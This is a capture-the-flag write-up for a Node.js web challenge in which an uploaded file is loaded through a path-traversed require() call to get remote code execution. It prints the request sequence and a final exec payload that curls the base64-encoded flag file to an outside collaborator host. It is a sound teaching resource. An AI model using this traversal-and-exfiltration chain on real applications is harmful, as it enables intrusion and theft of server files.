



# Day 01 - Generous Santa

- Category: Web
- Difficulty: Easy
- Format: Whitebox

## Description

The number of Santa's lunti has increased by 1337 this year, and there are a lot of them! 

Thanks to this, they've been able to give you some very, very nice gifts. If you can't find what you're looking for, you can even suggest gifts to him - maybe they'll make them in time!

## Writeup

**TLDR: NodeJS, Unrestricted file upload, arbitrary data in require(), RCE**



The application lets you view a list of products and add them to the sack. When a product is added in the sack, the following request is sent:

```bash
POST /api/add HTTP/1.1
Host: dyn-01.xmas.root-me.org:35584
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
Referer: http://dyn-01.xmas.root-me.org:35584/
Content-Type: application/json
Content-Length: 21
Origin: http://dyn-01.xmas.root-me.org:35584
Connection: keep-alive
Priority: u=0

{
  "product": "Bugatti"
}
```

The API answer that the product has successfully been added.

Another page is available in /suggest, and allows you to suggets a new product to santa. To do this, you are invited to insert a name and a file.



On the file uploaded, the API returns the response:

```bash
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: application/json; charset=utf-8
Content-Length: 109
ETag: W/"6d-GynmumcF4Qp305nkD9LebGh1Jyo"
Date: Tue, 10 Dec 2024 21:28:38 GMT
Connection: keep-alive
Keep-Alive: timeout=5

{
  "message": "Thank you! Santa will consider your suggestion.",
  "photoPath": "/tmp/2024-12-10_21-28-38/test.png"
}
```

The API also return the absolute path of the file.

When digging the source code we discover a NodeJS application using EJS template engine.

```bash
$ tree
.
├── Dockerfile
├── README.md
├── docker-compose.yml
├── flag.txt
└── src
    ├── app.js
    ├── models
    │   ├── bugatti.js
    │   ├── iphone.js
    │   ├── macbook.js
    │   ├── ps5.js
    │   ├── rolex.js
    │   └── tesla.js
    ├── package.json
    ├── public
    │   ├── css
    │   │   └── style.css
    │   └── images
    │       └── background.jpg
    ├── routes
    │   └── hotte.js
    └── views
        ├── index.ejs
        └── suggest.ejs

7 directories, 17 files
```

The code to save a suggestion is the following :

```javascript
router.post('/suggest', upload.single('photo'), (req, res) => {
    const { name } = req.body;

    if (!name || !req.file) {
        return res.status(400).json({ message: 'Name and photo are required.' });
    }

    const now = new Date();
    const dateStr = now.toISOString().split('T')[0];
    const timeStr = `${now.getHours()}-${now.getMinutes()}-${now.getSeconds()}`;
    const tempDir = path.join('/tmp', `${dateStr}_${timeStr}`);

    fs.mkdirSync(tempDir, { recursive: true });

    const tempPath = path.join(tempDir, req.file.originalname);

    fs.writeFile(tempPath, req.file.buffer, (err) => {
        if (err) {
            return res.status(500).json({ message: `Error saving the image: ${err.message}` });
        }
        res.json({ message: `Thank you! Santa will consider your suggestion.`, photoPath: tempPath });
    });
});
```

The upload form doesn't seem to be vulnerable to path traversal and doesn't allow you to move up the tree.

The other function allows you to add a product to your bag.

```javascript
router.post('/add', async (req, res) => {
    const { product } = req.body;

    try {
        const Gift = require(`../models/${product.toLowerCase()}`); // <-- We control value in require()
        const gift = new Gift({ name: product, description: `Description of ${product}` });
        output = gift.store();
        res.json({ success: true, output: output });
    } catch (error) {
        res.status(500).json({ message: `Error adding the product ${product}. ${error.message}` });
    }
});
```

This function retrieves the "product" variable in POST, and includes the model corresponding to the product. To do this, the application use require() function, which allow to include Javascript source code.

The vulnerability is here because if we control the content put in `require()` we could include NodeJS source code (like include() in PHP).

Luckily we have an upload form on the application! So we'll be able to path traversal on our file.

So fist we can run the Docker locally and upload our file :

```bash
POST /api/suggest HTTP/1.1
Host: 127.0.0.1:3000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: */*
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Referer: http://127.0.0.1:3000/suggest
Content-Type: multipart/form-data; boundary=---------------------------6564490759844536652976844979
Content-Length: 346
Origin: http://127.0.0.1:3000
Connection: keep-alive
Priority: u=0

-----------------------------6564490759844536652976844979
Content-Disposition: form-data; name="name"

pouet
-----------------------------6564490759844536652976844979
Content-Disposition: form-data; name="photo"; filename="x.png"
Content-Type: image/jpeg

console.log("123");
-----------------------------6564490759844536652976844979--
```

The API returns our file has been uploaded to "/tmp/2024-11-28_9-38-43/x.png".

Then, we add a product to the sack and intercept the request and do the path traversal to the file uploaded :

```bash
POST /api/add HTTP/1.1
Host: 127.0.0.1:3000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
Content-Type: application/json
Content-Length: 54
Connection: keep-alive
Priority: u=0

{
    "product": "../../../../tmp/2024-11-28_9-38-43/x.png"
}
```

The API returned an error `Gift is not a constructor` but the console.log has been executed. We can confirm by checking the container logs:

```bash
Attaching to app-1
app-1  | 
app-1  | > src@1.0.0 start
app-1  | > node app.js
app-1  | 
app-1  | Server is running on port 3000
app-1  | 123
```

We just have to repeat the operation by changing the console.log by a way to execute Remote Code Execution like this :

```javascript
const { exec } = require("child_process");

exec("curl https://aao1l4ngn7a95sv8bc0nk29r7id910pp.oastify.com/?c=$(cat /flag.txt|base64 -w0)", (error, stdout, stderr) => {
    if (error) {
        console.log(`error: ${error.message}`);
        return;
    }
    if (stderr) {
        console.log(`stderr: ${stderr}`);
        return;
    }
    console.log(`stdout: ${stdout}`);
});
```

And we get the flag!

